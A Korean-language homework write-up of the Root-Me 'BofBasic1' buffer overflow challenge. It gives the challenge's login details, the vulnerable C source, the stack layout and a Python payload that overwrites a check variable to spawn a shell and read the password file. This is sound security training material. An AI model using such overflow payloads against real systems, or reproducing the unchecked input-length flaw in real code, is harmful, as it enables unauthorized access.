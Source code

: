 ## Week4_HW_Root-Me_BofBasic1

> ### access
* `ssh -p 2222 app-systeme-ch13@challenge02.root-me.org`   
* passwd : `app-systeme-ch13`


<hr>

* Source code
```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```
<hr>

### Explanation

* 변수가 var -> check -> buf 순으로 선언되었기 때문에 
* 위 코드에서 스택의 구조는 아래와 같다.


```<pre>
[      buf[40]      ]
[ check(0x04030201) ]
[        var        ]
[        SFP        ]
[        RET        ]

```

* fgets함수로 45바이트의 문자를 받을 수 있기 때문에 
check변수를 원하는 값(0xdeadbeef)으로 덮을 수 있다.

* buf에 40byte를 채우고 check에 0xdeadbeef를 리틀엔디언 방식을 넣어주면 쉘이 실행될 것이다.
* 위의 과정을 수행할 수 있는 페이로드를 짜면 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"') | ./ch13`
이다. 
    * "|" 기호는 "파이프라인"이라는 기호로 한명령어의 출력을 다른 명령어의 입력으로 연결하는데 사용된다.
    * 따라서 파이프라인 왼쪽에 있는 입력값을 './ch13'의 입력을 전달한다.
* 그러나 이대로 실행하면 "shell closed! Bye" 라는 문구가 출력되면서 쉘이 종료된다.
* 이를 방지하기 위해 cat과 같이 shell 실행 후 입력을 받아주는 명령어를 추가하여 shell이 종료되지 않고 유지되게 해준다.
* 명령어를 구분하는 구분자로 ";" 가 사용되므로 
`(python -c 'print "A"*40 + "\xef\xbe\xad\xde"' ; cat) | ./ch13` 가 최종 페이로드코드가 된다.

* 위 페이로드를 넣으면 `"Yeah dude! You win!\nOpening your shell...\n"` 라는 문구가 나오고
* `ls -a` 명령어를 통해 .passwd파일을 확인할 수 있고 `cat` 명령어를 통해 password를 취할 수 있다.




